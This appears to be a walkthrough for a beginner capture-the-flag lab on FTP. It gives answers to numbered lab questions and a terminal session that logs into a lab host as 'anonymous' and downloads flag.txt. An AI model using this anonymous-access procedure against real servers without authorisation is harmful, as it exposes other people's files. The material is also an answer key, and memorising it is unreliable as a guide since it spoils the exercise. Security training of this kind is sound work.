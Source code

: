 7、What is the command we need to run in order to display the 'ftp' client help menu?

```
ftp -h
```

8、What is username that is used over FTP when you want to log in without having an account?

```
Anonymous
```

9、What is the response code we get for the FTP message 'Login successful'?

```
230
```

10、There are a couple of commands we can use to list the files and directories available on the FTP server. One is dir. What is the other that is a common way to list files on a Linux system.

```
ls
```

11、What is the command used to download the file we found on the FTP server?

```
get
```

12、Submit root flag

```bash
└─# ftp 10.129.77.43                                                                                                                                          1 ⨯
Connected to 10.129.77.43.
220 (vsFTPd 3.0.3)
Name (10.129.77.43:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||35358|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> binary
200 Switching to Binary mode.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||49803|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |*********************************************************************************************************************|    32      214.04 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:01 (0.02 KiB/s)
```
